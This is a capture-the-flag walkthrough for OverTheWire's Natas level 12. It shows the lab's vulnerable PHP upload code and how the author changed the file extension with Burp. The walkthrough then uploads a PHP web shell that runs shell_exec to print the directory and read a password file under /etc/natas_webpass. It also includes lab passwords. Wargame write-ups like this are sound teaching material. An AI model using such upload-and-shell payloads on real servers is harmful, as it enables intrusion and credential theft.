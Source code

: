 # Natas Level 12
The ***URL*** to which you need to connect is *http://natas12.natas.labs.overthewire.org*. The ***username*** is *natas12* and the ***password*** is *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*. 

Lets check the [viewsource](http://natas12.natas.labs.overthewire.org/index-source.html) link.
```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
By analysing the php script we can inject some malicious scipts, But we've to use burp to change the extension :
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
Lets upload script.php
```php
<? $res = shell_exec('pwd'); echo "<pre>$res</pre>"; ?>
# /var/www/natas/natas12/upload
```
```php
# You can use find command to find the password for this level but I expect that they are in the same dir
<? echo shell_exec('cat /etc/natas_webpass/natas13'); ?>
```

![Capture](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Captures/Capture5.PNG)

```
The password for natas12 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
